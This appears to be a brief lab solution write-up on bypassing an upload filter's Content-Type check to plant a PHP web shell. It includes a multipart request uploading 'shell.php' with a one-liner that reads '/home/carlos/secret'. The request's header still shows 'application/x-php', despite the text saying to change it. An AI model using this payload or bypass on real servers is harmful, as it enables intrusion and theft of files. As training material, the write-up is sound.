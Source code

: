 # Web shell upload via Content-Type restriction bypass
Solution:
- File is uploaded at `/files/avatars/`
- We need to change the Content-Type of the php webshell from `application/x-php` to either `image/jpeg` or `image/png`
- The request would look like this:
```php
[SNIP]
-----------------------------312293322935403065182893868892

Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
[SNIP]
```
